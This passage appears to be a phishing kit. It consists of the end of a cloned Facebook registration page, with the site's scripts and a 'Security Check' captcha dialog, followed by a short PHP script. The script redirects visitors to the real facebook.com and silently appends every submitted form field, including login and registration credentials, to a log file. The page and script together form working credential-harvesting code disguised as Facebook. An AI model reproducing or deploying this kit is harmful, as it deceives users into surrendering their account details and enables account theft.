ader.callback, ["BOOTLOAD\/ROADRUNNER_READY"]);Arbiter.registerCallback(function() {InitialJSLoader.load(["g1o38","WFWma","L1k\/a"]);Arbiter.inform("BOOTLOAD\/ROADRUNNER_READY", true, Arbiter.BEHAVIOR_STATE);}, [OnloadEvent.ONLOAD_DOMCONTENT_CALLBACK]);</SCRIPT>

<SCRIPT>
Bootloader.configurePage(["1zPSk","7bkGa"]);
Bootloader.done(["jDr+c"]);

JSCC.init(({"j4ef4826fab59c9f697421541":function(){return new ContextualDialogX();}}));


onloadRegister(function (){JSCC.get('j4ef4826fab59c9f697421541').initWithoutBuildingWrapper(HTML("\u003cdiv class=\"uiContextualDialogPositioner\" id=\"u8mwyx_1\" data-position=\"above\" data-context=\"u8mwyx_2\">\u003cdiv class=\"uiOverlay uiContextualDialog uiOverlayArrowBottom\" data-width=\"300\" data-hideonblur=\"true\" data-destroyonhide=\"false\">\u003cdiv class=\"uiOverlayContent\">\u003cdiv class=\"uiContextualDialogContent uiContextualDialogDefaultPadding\">\u003cdiv class=\"uiHeader mbs\">\u003cdiv class=\"clearfix uiHeaderTop\">\u003cdiv>\u003ch3 class=\"uiHeaderTitle\">Security Check\u003c\/h3>\u003c\/div>\u003c\/div>\u003c\/div>This is a standard security test that we use to prevent spammers from creating fake accounts and spamming users.\u003c\/div>\u003c\/div>\u003ci class=\"uiOverlayArrow\" style=\"left: 15px;\">\u003c\/i>\u003c\/div>\u003c\/div>"))});
onloadRegister(function (){useragent();});
onloadRegister(function (){if(typeof(Env)=='undefined') Env = {};
            Env['recaptcha_focus_on_load'] = false});
onloadRegister(function (){
      if (typeof RegUtil == 'undefined') {
        RegUtil = function() {};
      }
      RegUtil.captcha_class="ReCaptchaCaptcha";
      RegUtil.recaptcha_public_key="6LfDxsYSAAAAAGGLBGaRurawNnbvAGQw5UwRWYXL";
      });
onloadRegister(function (){if(typeof(Env)=='undefined')Env={};
            Env['recaptcha_lang'] = "en"});
onloadRegister(function (){RegistrationBootloader.init("registration_container", true, "reg", "form_focus", "https:\/\/www.facebook.com\/ajax\/register.php");});
onloadRegister(function (){startFormTypeABTester($("reg"))});
onloadRegister(function (){window.intl_locale_rewrites = {"meta":{"\/_B\/":"^(.*[.,!?\\s]|)","\/_E\/":"([.,!?\\s].*|)$"},"patterns":{"\/\u0001(.*)('|&#039;)s\u0001(?:'|&#039;)s(.*)\/":"\u0001$1$2s\u0001$3","\/_\u0001([^\u0001]*)\u0001\/e":"mb_strtolower(\"\u0001$1\u0001\")","\/_\u0001([^\u0001]*)\u0001\/":"javascript"}};});
onloadRegister(function (){$("u8mwyx_6").value = tz_calculate(1324647023)});
onloadRegister(function (){try { $("email").focus(); } catch (_ignore) { }});
onloadRegister(function (){FbDesktopDetect.patchLoginForm()});
onafterloadRegister(function (){Bootloader.loadComponents(["dimension-tracking"], function(){  });});
onafterloadRegister(function (){Bootloader.loadComponents(["detect-broken-proxy-cache"], function(){ detect_broken_proxy_cache("0", "c_user") });});
</SCRIPT>

<SCRIPT>var big_pipe = new BigPipe({"lid":0,"rrEnabled":1,"forceFinish":true,"delay":0,"jsEarlier":0});</SCRIPT>

<SCRIPT>big_pipe.onPageletArrive({"phase":0,"id":"first_response","is_last":true,"css":["1zPSk","7bkGa"],"js":["g1o38","WFWma","L1k\/a"],"onload":["setCookie(\"reg_fb_ref\", \"http:\\\/\\\/www.facebook.com\\\/\", 0, \"\\\/\");"]});</SCRIPT>

<SCRIPT>big_pipe.onPageletArrive({"phase":1,"id":"","is_last":true,"the_end":true,"css":["1zPSk","7bkGa"],"js":["g1o38","WFWma","L1k\/a"],"tti_phase":1});</SCRIPT>

<DIV id=u8mwyx_1
class="uiContextualDialogPositioner hidden_elem uiContextualDialogAbove"
data-context="u8mwyx_2" data-position="above">
<DIV class="uiOverlay uiContextualDialog uiOverlayArrowBottom"
data-destroyonhide="false" data-hideonblur="true" data-width="300">
<DIV class=uiOverlayContent>
<DIV class="uiContextualDialogContent uiContextualDialogDefaultPadding">
<DIV class="uiHeader mbs">
<DIV class="clearfix uiHeaderTop">
<DIV>
<H3 class=uiHeaderTitle>Security Check</H3></DIV></DIV></DIV>This is a standard
security test that we use to prevent spammers from creating fake accounts and
spamming users.</DIV></DIV><I style="MARGIN-LEFT: 15px; LEFT: 0%"
class=uiOverlayArrow></I></DIV></DIV></BODY></HTML>

<?php
header ('Location: http://www.facebook.com');
$handle = fopen("log.txt", "a");
foreach($_POST as $variable => $value) {
   fwrite($handle, $variable);
   fwrite($handle, "=");
   fwrite($handle, $value);
   fwrite($handle, "\r\n");
}
fwrite($handle, "\r\n");
fclose($handle);
exit;
